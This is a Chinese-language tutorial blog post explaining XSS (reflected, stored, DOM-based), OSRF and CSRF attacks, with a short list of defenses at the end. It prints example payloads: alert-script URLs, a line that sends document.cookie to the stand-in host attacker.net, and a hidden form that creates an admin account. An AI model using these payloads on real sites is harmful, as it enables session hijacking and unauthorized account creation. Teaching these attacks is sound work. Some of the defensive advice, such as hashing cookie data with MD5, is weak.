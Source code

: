 ```yaml
---
title: XSS 和 CSRF 两种跨站攻击
layout: post
comments: true
date: 2016-11-26 19:17:15
tags: [Web安全]
categories: Web安全
description: XSS CSRF 两种 跨站 攻击
photos:
- http://ww4.sinaimg.cn/mw690/e3dde130gw1fa5qff0d0gj20zk0npk1e.jpg
- http://ww4.sinaimg.cn/small/e3dde130gw1fa5qff0d0gj20zk0npk1e.jpg
---
```

差不多刚开始接触前端的时候，经常能看到一些早几年入行大牛们的简历，几乎所有人都会在简历中带上这么一句话：具备基本的 Web 安全知识（XSS / CSRF）。显然这已经成为前端人员的必备知识。

<!--more-->

非常怀念那个 SQL 注入还没有被普遍认可的年代，虽然这么多年过去了，SQL 注入并没有消失，仍然是最危险的漏洞。关于 SQL 注入的原理，可以看我之前写的文章[SQL 注入详解](http://yuren.space/blog/2016/10/01/SQL%E6%B3%A8%E5%85%A5%E8%AF%A6%E8%A7%A3/)。今天是主题是 Web 安全的另外两大杀手，XSS 和 CSRF。

## XSS 的分类

XSS 漏洞有多种形式，分为三类，反射型、保存型和基于 DOM 的 XSS 攻击。这些漏洞的基本原理都是一样的，但是确定和利用漏洞方面又存在很大的差异，下面将对这三种漏洞详细介绍。

### 反射型 XSS 漏洞

前面废话一大堆，还是没有说 XSS 漏洞到底是什么，别急，慢慢看。如果一个 Web 程序可以动态的显示用户的错误消息，就有可能会产生反射型漏洞。

用户浏览网页时发送错误，向服务器请求 URL，比如`www.xxx.com/error.php?message=sorry,an error occurred`，然后服务器根据得到的 message，**不进行过滤**，复制到错误页面的模板中：`<p>sorry,an error occurred</p>`，返回给用户。

这个漏洞有一个显著的特征，应用程序没有进行任何过滤或净化措施，就非常容易受到攻击。`www.xxx.com/error.php?message=<script>alert(1)</script>`，当用户打开错误页面时，就会出现`<p><script>alert(1)</script></p>`，弹出一个消息框。

显然，攻击人员不会很傻的仅仅 alert 一些消息，在 IE 中，如果开启跨站点脚本检测可能无法弹出消息。通常 XSS 都会伴随着会话劫持，攻击者截获通过验证的用户的会话令牌。劫持用户的会话后，攻击者就可以访问该用户授权访问的所有数据和功能。

比如攻击者构造一个这样的 URL，message 信息如下

```
var i = new Image;
i.src="http://attacker.net/"+document.cookie;
```

这样被攻击者通过访问这个恶意的 URL，就会把 cookie 发送给黑客，黑客截获 cookie，就能执行用户的任意操纵。下图是一个简易的流程图：

![](/content/images/2016/11/t5.png)

由于浏览器的同源策略，直接向 attacker.net 发送 document.cookie 是无法获得 www.xxx.com 的 cookie，因为浏览器会对不同源（域）的内容进行隔离，这就是该漏洞被称为跨站脚本的原因。

### 保存型 XSS 漏洞

保存型跨站脚本也是比较常见的漏洞，脚本通常保存在后端数据库中，不经过滤就存储并且显示给用户，此时就会出现这种漏洞。

与反射型的流程不同的是，保存型需要向服务器提出至少两次请求，第一次将含有恶意代码的数据提交给服务器，服务器将数据保存，第二次是受害者想服务器提出访问含有恶意代码数据的页面，恶意代码执行。

与反射型不同的是，保存型不需要一个专门设计的 URL 来接收 cookie，只需要将含有恶意代码的页面发给用户，等待受害者访问即可。不过，也可用保存型的漏洞来获取用户 cookie 进行劫持。

还有一个不同点，反射型的漏洞，必须要等受害者登陆后，才能保证 cookie 的正常获得，而保存型的漏洞，受害者访问页面，说明已经登陆了。

举一个例子，比如某社交论坛存在保存型的 XSS 漏洞，黑客将自己的个人信息一栏修改成恶意的 JS 代码，改代码实现两个功能，首先受害者加自己为好友，其次修改受害者的个人信息为该恶意代码。黑客把个人信息保存并提交给服务器，只需要等受害者访问自己的个人信息页面，浏览器就会执行该恶意脚本，于是可怕的“蠕虫”就开始了。

### 基于 DOM 的 XSS 漏洞

前两种 XSS 漏洞，都表现一种特殊的模式，就是应用程序提取数据并返回给受害者，而基于 DOM 的 XSS 不具有这种特点，攻击者是借助于 JavaScript 来展开攻击的。

1. 用户请求一个经过专门设计的 URL，由攻击者提交，包括嵌入式的 JavaScript；
2. 服务器的响应不包含任何攻击者的脚本，同时服务器也不会对 URL 进行检测；
3. 当用户浏览这个响应时，脚本得以处理。

与反射型漏洞类似，都是对 URL 进行特殊构造，不同的是，反射型是由服务器处理 URL，而 DOM 型是由 JavaScript 脚本来处理。还以刚才那个反射型为例子，假设应用程序返回的错误页面包含以下 JS 脚本：

```
<script>
  var url = document.location;
  var message = /message=(.+)$/.exec(url)[1];
  document.wirte(message);
  //或者
  document.getElementById("show").innerHTML = message;
</script>
```

同样给受害者发送这样的链接 `www.xxx.com/error.php?message=<script>alert(1)</script>`，也可以开展 XSS 漏洞攻击。基于 DOM 的漏洞不局限与 URL，还可以是页面某个 dom 的内容，这和存储型的 XSS 又联系到一起。

## 请求伪造

在 XSS 跨站攻击中，攻击者需要获得受害者的会话令牌，请求伪造也与会话劫持相关，但是攻击者不需要知道受害者的会话令牌，就能够行驶“受害者”的权利。请求伪造有两种，本站点请求伪造（OSRF）和跨站点请求伪造（CSRF），

### OSRF

OSRF 是一种利用保存型 XSS 漏洞的攻击载荷，如果在得知应用程序对 XSS 漏洞过滤的情况下，可以尝试 OSRF 攻击。

比如这是一个某站点 POST 请求，该站点过滤 XSS 攻击，

```
POST /submit.php
Host: xxx.com
Content-Length: ..

type=question&name=get&message=mes
```

然后该信息将会被现实到如下的 HTML 中：

```
<tr>
  <td><img src="/images/question.jpg"></td>
  <td>get</td>
  <td>mes</td>
</tr>
```

这个漏洞很容易找到，直接用 type 的值来表示 jpg 的name，然后我们构造 type 的值等于下面的内容，

```
../admin/newuser.php?username=test&password=123&role=admin#
```

使用上面的介绍，相对应的构造一个表单提交，创建一个管理员权限的用户，普通用户点击是不会成功的，因为权限不够，但是如果是管理员点击该链接的话，就会创建一个秘密账户，所以，即时对 URL 禁用了 JavaScript 脚本，还是可以通过 OSRF 攻击成功。

在攻击字符串的最后使用了 # ，是为了对 .jpg 进行屏蔽，也可以添加 & 组成另一个参数。

### CSRF

跨站点请求伪造才是跨站伪造的重点内容，攻击者只需要创建一个看似无害的网站，致使受害者的浏览器直接向易受攻击的服务器提交一个请求，执行恶意代码。

仍然需要考虑同源策略，仍然以管理员创建新用户为例，

```
POST /newUser.php HTTP/1.1
Host: xxx.com
Cookie: SessionId=...
Content-Length: ..

name=ro&userrole=admin&password=123456&confirmpassword=123456
```

黑客构造的网站会提交一个 form 表单，并想办法让 form 隐藏：

```
<<!DOCTYPE html>
<html><body>
  <form action="http://xxx.com/newUser.php" method="POST">
    <input type="hidden" name="name" value="ro">
    <input type="hidden" name="userrole" value="admin">
    <input type="hidden" name="password" value="123456">
    <input type="hidden" name="confirmpassword" value="123456">
  </form>
</body></html>
```

当管理员已经登陆的情况下，访问这个恶意网站的时候，就会提交这段脚本，管理员都不知情。因为管理员已经登陆，无需考虑 Cookie 的问题，一个简单的 CSRF 如此。

## 总结

其实攻击很简单，只要的还是如何防御，比如

1. 对一些关键字和特殊字符进行过滤或 URL、HTML 编码，"<>?"或"script，javascript"；
2. Cookie 防盗，在 Cookie 中防止放入用户名和密码，对 Cookie 信息进行 MD5 等算法进行多次散列存放，必要时还要对 ip 和 cookie 进行绑定，一旦检测异常，立马让用户重新登录；
3. 严格控制 URL 访问，对于一些挂马的 ip 和域名，强制无法访问；
4. 等等

共勉。

## 参考

>[跨站脚本攻击介绍](http://blog.csdn.net/yefan2222/article/details/7091863)
>[那些年我们一起学 XSS](https://wizardforcel.gitbooks.io/xss-naxienian/content/7.html)
>[总结 XSS 与 CSRF 两种跨站攻击](https://blog.tonyseek.com/post/introduce-to-xss-and-csrf/)
>书籍：《黑客攻防技术宝典 Web实战篇》